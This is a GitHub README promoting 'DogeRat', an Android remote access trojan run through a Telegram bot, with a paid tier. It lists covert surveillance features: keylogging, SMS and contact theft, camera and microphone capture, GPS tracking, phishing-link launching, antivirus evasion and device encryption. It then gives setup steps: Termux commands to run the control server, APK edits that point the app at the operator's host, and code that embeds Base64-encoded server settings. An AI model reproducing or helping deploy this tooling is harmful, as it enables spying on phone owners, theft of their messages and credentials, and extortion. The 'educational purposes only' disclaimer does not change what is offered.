


<h1 align="center">DogeRat</h1>

---

<p>
  
</p>

<p align="center"><i>A multifunctional Telegram-based Android RAT without port forwarding</i></p>

---

<h2 align="center">Panel Screenshot</h2>

<p align="center">
  
</p>

---

## 🚀 Features

- 🔴 Real-time command execution  
- 🌐 Custom web view  
- 🔔 Notification reader & sender (custom messages with links)  
- 🗨️ Toast messages  
- 📡 SIM provider info  
- 📳 Vibrate device  
- 🛰️ GPS location tracking  
- ✉️ Receive and send SMS (single or all contacts)  
- 👤 Access all contacts  
- 💻 List all installed apps  
- 📁 File/folder browser, downloader, deleter  
- 📷 Front & rear camera capture  
- 🎙 Microphone recording (custom duration)  
- 📋 Clipboard monitor  
- 🔦 Torch control  
- ✅ Auto start on boot  
- 🔐 Open phishing links on device  
- ⌨️ Keylogger (APK v1 & v2)  
- 📱 Control navigation keys (Back, Recent, Home)  
- 🔊 Control device volume  
- ✨ Telegram bot interface  
- 🛡️ Undetectable by antivirus  

---

## 🏆 Paid Version Extras

- 🖥️ Real-time screenshots  
- 📒 Gallery puller (fetch all images)  
- 🔤 Advanced keylogger  
- 📁 Enhanced file manager  
- ⚙️ Auto-permission grant  
- 🔐 Device encryption & decryption  
- 🛡️ Fully undetectable  

<p align="center">
  <a href="https://t.me/fahimahamed10">
    
  </a>
</p>

---

## 📦 Requirements

- APK Editor  
- Termux  
- Hosting options:
  - [Replit](https://replit.com/)
  - [Glitch](https://glitch.com/)
  - [Heroku](https://heroku.com/)
  - [Render](https://render.com/)

⚠️ Note: Hosting services may suspend your project. Hosting locally is recommended.

---

## 📥 Downloads

<p align="center">
  <a href="https://f-droid.org/en/packages/com.termux/">
    
  </a>
  <a href="https://apkcombo.com/apk-editor/com.gmail.heagoo.apkeditor/">
    
  </a>
</p>

---

## ⚙️ Host Server in Termux

```bash
pkg update && upgrade -y
pkg install git -y
git clone https://github.com/fahimahamed1/DogeRat 
cd DogeRat
bash start.sh
# Enter your bot token & chat ID
# Open new tab:
pkg install openssh
bash port.sh
# Enter Telegram username and copy URL
```

---

## 🛠️ APK Editing

1. Open APK Editor  
2. Select your APK > Full Edit  
3. Decode all files  
4. Navigate to `assets/host.json`  
5. Update with your host & socket links  
6. Rebuild and install the APK

**Example JSON:**

```json
{ 
  "host": "https://yoururl.com/", 
  "socket": "wss://yoururl.com/", 
  "webView": "https://google.com/" 
}
```

---

## 🧱 Build with Android Studio

1. Import project in Android Studio  
2. Open `Utils/AppTools.java`  
3. Edit the `data` variable with your Base64 encoded server JSON  
4. Use this format:

```json
{
  "host": "",
  "socket": "",
  "webView": "https://www.google.com"
}
```

5. Use [base64encode.org](https://www.base64encode.org/) to encode JSON  
6. Replace the `data` string:

```java
public static AppData getAppData() {
  String data = "<your encoded server info>";
  String text = decode(data);
  return new Gson().fromJson(text, AppData.class);
}
```

---

## ⚠️ Disclaimer

<p align="center">
  
</p>

> 🛡️ This tool is for **educational purposes only**. The developer holds no responsibility for misuse.  
> 🚫 Use only on devices you **own or have permission to control**.  
> 📛 Do not impersonate: Telegram: [Fahim Ahamed](https://t.me/fahimahamed10)

---

## 🛠 Technology Stack

<p align="center">
  
  
  
  
</p>
